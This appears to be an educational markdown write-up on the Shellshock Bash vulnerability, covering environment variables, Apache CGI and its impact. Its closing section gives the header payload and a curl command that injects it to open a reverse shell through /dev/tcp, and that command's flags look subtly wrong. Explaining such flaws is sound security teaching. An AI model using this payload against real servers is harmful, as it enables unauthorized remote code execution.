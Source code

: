# Shell Shock Vulnerability Write Up

## Overview
Shell Shock, also known as the Bash Bug, is a critical vulnerability that came to light in 2014, affecting the GNU Bash shell. This vulnerability enables attackers to execute arbitrary commands on a target system, posing significant security risks. This write-up delves into the Shell Shock vulnerability, offering insights into its discovery, impact, and implications for the security landscape.

## Background

Shellshock, also known as the Bash Bug, was a significant security vulnerability that was discovered in 2014. The vulnerability affected the Bash shell, a widely used command-line interface for Unix and Unix-like operating systems, including Linux. This vulnerability allowed attackers to execute malicious code on a target system, potentially gaining unauthorized access and control.

It is hard to estimate how many devices were impacted by the vulnerability, but Bash is a widely used tool on Linux system. In 2014, tens of millions of devices were running Linux or Linux-like operating systems. Devices from routers, smart-tvs, and Internet of Things devices, to lots of public infrasturcture, to data centers and cloud computer use Linux as their backbone. Due to the wide usage of linux, the impact of the vulnerability is high. The risk of this vulnerability is also high, because systems can easily be compromised through the vulnerability. 


### Bash Environment Variables
Bash environment variables are fundamental components of the Bash shell. These variables store information that can be accessed and manipulated by shell scripts, commands, and running programs. They serve various purposes, such as defining system-wide settings, user-specific configurations, and providing data to processes. Environment variables are typically accessed using the dollar sign ($) followed by the variable name, such as $PATH for defining the system's executable search path. They can store data like file paths, user preferences, system parameters, or temporary values, making them essential for customizing and configuring the behavior of the shell and its associated processes. Additionally, Bash environment variables facilitate communication between different programs and are a crucial part of system administration and software development on Unix-based systems.

### Shellshock on Apache

The vulnerability was commonly present on Web Application Servers that were hosted on Linux Servers. The servers would use the bash command line for server side processing. Most often, the Apache server would be using CGI to process and handle user requests. In some implementations, request headers would be communicated to Bash through the use of environmental variables. The  variables would be executed by the shell when handling requests. An attacker could set the value of a header, the user-agent, or other field, to include arbitrary code. When this field was written to an environment variable, it would be executed by the shell. This gives the attacker arbitrary remote code execution, which can be used to as an initial foothold in an attack. 

### Common Gateway Interface
Common Gateway Interface (CGI) is a set of standards and protocols that enables web servers to interact with external programs and scripts to generate dynamic web content. CGI scripts are typically written in languages like Perl, Python, or Shell, and they facilitate the processing of data from web forms and other user inputs, allowing web servers to execute these scripts and return dynamic web pages to users. CGI has been a fundamental technology in the early days of web development, although it has become less common in favor of more efficient server-side technologies like PHP, ASP.NET, and JavaScript frameworks.

## Exploiting ShellShock

To exploit shellshock, simply include this payload in a header in the request:
```
() { :;}; <cmd>
```

Obviously, change the cmd to the command that you want to run. You will not recieve any output of the commands execution. However, you can leverage this to gain a reverse shell. </br>

Example curl request that exploits the Bash Bug to get a reverse shell. 
```curl -X POST -h "User-Agent: bash_bug () { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/127.0.0.1/8888 0>&1 &" sparrow.fly```
